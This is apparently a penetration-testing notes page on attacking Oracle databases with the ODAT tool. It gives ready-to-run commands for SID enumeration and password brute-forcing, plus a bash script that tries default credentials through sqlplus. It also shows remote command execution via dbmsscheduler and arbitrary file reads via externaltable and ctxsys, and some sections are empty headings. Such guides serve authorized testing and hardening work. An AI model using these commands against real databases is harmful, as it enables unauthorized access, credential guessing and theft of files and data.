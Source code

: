 # Oracle Databases

Most of the examples here will be utilizing [ODAT ](https://github.com/quentinhardy/odat), the Oracle Database Attacking Tool.  This is because it has a number of exploits and scanners built in, is generally easier to set up and more stable than metasploit, and can use a lot of metasploits wordlists and data.  However, a lot will be repeated from the [wiki](https://github.com/quentinhardy/odat/wiki), so follow that if you want more in depth information.  Follow the guide in the [ODAT readme](https://github.com/quentinhardy/odat) to ensure that your Kali has all the required tools.

In general I'd recommend this over trying to get Metasploit up and running.  However, if you are still keen then follow [this guide](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux).  For an alternative, see [Andy Gill's guide](https://blog.zsec.uk/msforacle/).

## Connecting to the Database

Assuming a remote TNS listener on port 1521, we can connect to a remote database as follows:

```
/usr/bin/sqlplus64 username/password@192.168.0.5:1521/ORCL
```

It's worth adding the `as sysdba` appended to the above command as your user may already be a database administrator, but the option to connect as one has to be explicitly set.  Alternatively pass the `--sysdba` flag to ODAT when logging in:

```
./odat.py all -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

It's highly recommended to use the `all` module when being presented with a new set of credentials, discovered either via brute-force or from another service.  Running this in combination with `--test-modules` will give you a quick overview of what is and isn't possible.  Use this flag with any of the below modules to ensure they work correctly.

If using ODAT, I'd also advise passing the `-vvv` flag once you ensure a module is working as it will allow you to debug the SQL commands, and see how they work behind the scenes.

## SID Enumeration

The [Oracle System Identifier](https://docs.oracle.com/cloud/latest/db112/CNCPT/startup.htm#CNCPT601) \(SID\) for Oracle identifies the database instance running on the host.  These will be unique for each database instance running, and it's important to identify all SID's available, as different instances can hold different data.

We can use ODAT to enumerate these SID's and find instances to attack.  These have to be explicity set in the command so it's important that you verify any one's available:

```
./odat.py sidguesser  -s 10.10.10.82
```

## Username Brute-force

Generally usernames and passwords are not case-sensitive in older Oracle databases, but as of [11g](http://planet.openbravo.com/blog/aware-oracle-11g-login-is-case-sensitive/) this is not the case.  Also they are typically subject to an account lockout on too many password attempts ranging from 5 to 10, as we can see here:

```
string = SYSTEM:0RACLE
ORA-01017: invalid username/password; logon denied
string = SYSTEM:0RACL3
ORA-01017: invalid username/password; logon denied
string = SYSTEM:ORACLE8
ORA-28000: the account is locked
```

Lucky for us it will tell us and could be used as a very basic username enumeration method if you're really really desperate.  I'm joking, don't do that. Do not do that!

We can again use ODAT to brute-force passwords:

```bash
./odat.py passwordguesser -s 192.168.0.5 -d ORCL --accounts-file accounts/accounts_multiple.txt
```

The following bash script can perform a dirty manual brute-force using sqlplus, so be sure to adjust the path's in this one accordingly:

```bash
#!/bin/bash
INPUT=/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv
OLDIFS=$IFS
IFS=,
[ ! -f $INPUT ] && { echo "$INPUT file not found"; exit 99; }
while read comment number username password hash comment
do
 echo "string = $username:$password"
 /usr/lib/oracle/12.2/client64/bin/sqlplus -L $username\/$password\@192.168.0.5:1521\/ORCL | cut -d$'\n' -f 7 
done < $INPUT
IFS=$OLDIFS
```

**Source**: [http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html](http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html)

## Code Execution

There's unfortunately nothing as trivial as `xp_cmdshell` for Oracle databases, but we do have options.  We can use `dbmsscheduler` in odat to execute arbitrary commands, however the results are not displayed.  You'll have to use one of the many file transfer methods to fetch the output of this command.

```
./odat.py dbmsscheduler -s 192.168.0.5 -d ORCL -U username -P password --sysdba --exec "C:\windows\system32\cmd.exe /c dir C:\\Users\\ > C:\output" -vvv
```

## Arbitrary File Read

I've found the `externaltable` to give the best results in cases like these:

```
./odat.py externaltable --getFile C:\\Users\\Booj\\Desktop evil.jpg evil.jpg -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

However, do note that `ctxsys` can do the same, but all results are transformed to upper case:

```
./odat.py ctxsys --getFile 'C:\\Users\\Booj\\Desktop\\evil.jpg' -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

## CVE 2012-1675 \(TNS Poisoning\)

## CVE-2012-3137

[Alternative Script \(untested\)](https://github.com/r1-/cve-2012-3137)

## Privilege Escalation

## Further Reading

[Blackhat USA 2009 - Attacking Oracle with the Metasploit Framework](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf) & [Paper](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-PAPER.pdf)  
[Oracle DB Vulnerabilities: The Missing Pentester Handbook](https://hackmag.com/uncategorized/looking-into-methods-to-penetrate-oracle-db/)  
[Hardening Oracle Databases](/h ttp://www.ordba.net/Articles/HardeningOracleDB.htm)  
[Simple Oracle Privilege Escalation Techniques](http://ora-600.pl/art/oracle_privilege_escalation.pdf)  
[Simple Oracle Privilege Escalation Techniques 2](http://ora-600.pl/art/privilege_escalation_2.pdf)


